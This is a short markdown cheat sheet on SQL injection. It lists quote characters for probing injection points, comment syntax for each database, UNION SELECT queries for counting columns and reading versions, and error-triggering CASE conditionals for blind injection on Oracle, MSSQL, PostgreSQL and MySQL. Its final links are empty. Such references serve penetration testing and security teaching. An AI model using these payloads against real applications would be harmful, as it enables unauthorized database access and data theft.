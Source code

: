 # SQLi

## Check for SQLi
**Determine entry point:**
```
'
"
`
')
")
`)
'))
"))
`))
```
**Add comments after quote injection:**
```sql
MySQL
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
PostgreSQL
--comment
/*comment*/
MSQL
--comment
/*comment*/
Oracle
--comment
SQLite
--comment
/*comment*/
HQL
HQL does not support comments
```

## Union Based SQL Injection
If you can see the output of your SQL query then this is the best way to exploit it

**Determine number of columns:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Determine number of columns for Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
**Get database versions**:
```sql
--MySQL, Microsoft
SELECT @@version
--PostgreSQL
SELECT version()
--Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance
```



## Blind SQLi
If you cant see the output of your query then try these （￣︶￣）↗　

#### Check your query triggers an error response from the application
*These are not copy-pastable , you'll need to modify them to fit your already-working injection*
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual)
```
**MSQL:**
```sql
SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END
```
**PostgreSQL:**
```sql
1 = (SELECT CASE WHEN (1=2) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
```
**MySQL:**
```sql
SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
```

**If it does not seem to return specific results depending on your injection...**
- ...and it does not seem to be modifying the response of the application in any way, check out 
- ...and your query triggers a boolean response from the application (i.e. 200/500, or a generic success/fail message in the page), check out
